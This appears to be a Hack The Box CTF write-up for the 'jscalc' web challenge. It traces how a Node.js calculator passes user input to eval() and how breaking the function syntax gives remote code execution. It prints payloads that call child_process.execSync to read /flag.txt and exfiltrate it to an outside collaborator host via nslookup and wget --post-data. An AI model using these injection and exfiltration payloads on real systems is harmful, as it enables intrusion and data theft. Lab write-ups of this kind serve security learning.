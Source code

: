 ```yaml
---
layout: post
title: jscalc HTB
date: 2024-03-09 18:11 -0500
img_path: /assets/img/jscale/
published: true
categories: ["Hack The Box"]
tags: ["RCE", "NodeJs","Web Challenge"]
toc: true
---
```

# jscalc

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

This challenge is very straigth forward, we see on the main page that they use ```eval()```
![WebPage](image.png)
## Source Code Review
Let check the flow on our input in the calculator function.
First modify package.json, Dockerfile and the build-docker.sh to attach our debugger form VSCode. The /routes files define the endpoint /api/calculate, our **formula** parameter pass to Calculator.calculate() function.
![formula](image-1.png)
```javascript
router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})
```
the function is pretty simple
```javascript
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
```
So if we can break the syntax, we shoul be able to get RCE, something like ```123;}())+console.log(1)//```
## Local Testing
We put a breakpoint on the return eval() line and pass our inpunt via BurpSuite
![RCE](image-2.png)
We are able to execute commands on the system. What command are able inside that docker container, after some test the approach i found was nslookup to exfiltrate flag.
```javascript
require('child_process').execSync('cat /flag.txt | base64 | xargs -I {} nslookup {}.burp.oastify.com')
```

![Poc](image-3.png)

![alt text](image-4.png)

## Proof of concept 
![GG](image-5.png)

That doesn't work for the challenge server so i have to change my payload to 
```json
{"formula":"123;}())+require('child_process').execSync('wget --post-data=$(cat /flag.txt) http://burp.oastify.com/ -O /dev/null')//"}
```